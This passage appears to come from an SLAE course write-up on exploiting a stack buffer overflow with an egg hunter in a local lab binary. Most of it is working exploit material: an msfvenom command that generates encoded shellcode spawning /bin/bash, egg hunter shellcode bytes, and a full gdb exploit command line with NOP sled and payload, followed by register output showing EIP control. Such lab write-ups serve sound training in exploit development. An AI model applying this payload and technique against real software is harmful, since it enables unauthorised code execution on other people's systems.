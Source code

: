 To generate our payload, we use:

    $msfvenom -a x86 --platform linux -p linux/x86/exec CMD="/bin/bash" -e x86/alpha_upper --smallest -f c

For the egg hunter, I chose to use [this one](http://shell-storm.org/shellcode/files/shellcode-839.php) (for no special reason):

    \xfc\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x6a\x21\x58\x8d\x5a\x04\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7

We must now find the address of our egg hunter:

```
gdb-peda$ r $(python -c 'print "\x90"*800 + "\xfc\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x6a\x21\x58\x8d\x5a\x04\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7" + "\x90"*198 + "BBBB" + "\x90"*20 + "\x90\x50\x90\x50\x90\x50\x90\x50\x89\xe3\xda\xcd\xd9\x73\xf4\x5a\x4a\x4a\x4a\x4a\x4a\x43\x43\x43\x43\x43\x43\x52\x59\x56\x54\x58\x33\x30\x56\x58\x34\x41\x50\x30\x41\x33\x48\x48\x30\x41\x30\x30\x41\x42\x41\x41\x42\x54\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x58\x50\x38\x41\x43\x4a\x4a\x49\x32\x4a\x44\x4b\x51\x48\x4c\x59\x56\x32\x53\x56\x32\x48\x56\x4d\x53\x53\x4d\x59\x4a\x47\x42\x48\x56\x4f\x43\x43\x43\x58\x45\x50\x55\x38\x36\x4f\x42\x42\x52\x49\x32\x4e\x4d\x59\x4d\x33\x50\x52\x4b\x58\x34\x4a\x45\x50\x43\x30\x55\x50\x46\x4f\x35\x32\x42\x49\x32\x4e\x36\x4f\x32\x42\x43\x51\x44\x33\x45\x38\x55\x50\x30\x57\x46\x33\x4d\x59\x4d\x31\x58\x4d\x4b\x30\x41\x41"')
Starting program: /opt/SLAE/assignment3/vuln $(python -c 'print "\x90"*800 + "\xfc\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x6a\x21\x58\x8d\x5a\x04\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7" + "\x90"*198 + "BBBB" + "\x90"*20 + "\x90\x50\x90\x50\x90\x50\x90\x50\x89\xe3\xda\xcd\xd9\x73\xf4\x5a\x4a\x4a\x4a\x4a\x4a\x43\x43\x43\x43\x43\x43\x52\x59\x56\x54\x58\x33\x30\x56\x58\x34\x41\x50\x30\x41\x33\x48\x48\x30\x41\x30\x30\x41\x42\x41\x41\x42\x54\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x58\x50\x38\x41\x43\x4a\x4a\x49\x32\x4a\x44\x4b\x51\x48\x4c\x59\x56\x32\x53\x56\x32\x48\x56\x4d\x53\x53\x4d\x59\x4a\x47\x42\x48\x56\x4f\x43\x43\x43\x58\x45\x50\x55\x38\x36\x4f\x42\x42\x52\x49\x32\x4e\x4d\x59\x4d\x33\x50\x52\x4b\x58\x34\x4a\x45\x50\x43\x30\x55\x50\x46\x4f\x35\x32\x42\x49\x32\x4e\x36\x4f\x32\x42\x43\x51\x44\x33\x45\x38\x55\x50\x30\x57\x46\x33\x4d\x59\x4d\x31\x58\x4d\x4b\x30\x41\x41"')
Enter some text:
You entered: ���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������1���f���Bj!X�Z̀<�tP�P�ׯu��u��琐����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������BBBB���������������������P�P�P�P�����s�ZJJJJJCCCCCCRYVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJI2JDKQHLYV2SV2HVMSSMYJGBHVOCCCXEPU86OBBRI2NMYM3PRKX4JEPC0UPFO52BI2N6O2BCQD3E8UP0WF3MYM1XMK0AA

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x4d8 
EBX: 0x90909090 
ECX: 0x7ffffb28 
EDX: 0xf7fa8870 --> 0x0 
ESI: 0x2 
EDI: 0xf7fa7000 --> 0x1b2db0 
EBP: 0x90909090 
ESP: 0xffffcb70 --> 0x90909090 
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffcb70 --> 0x90909090 
```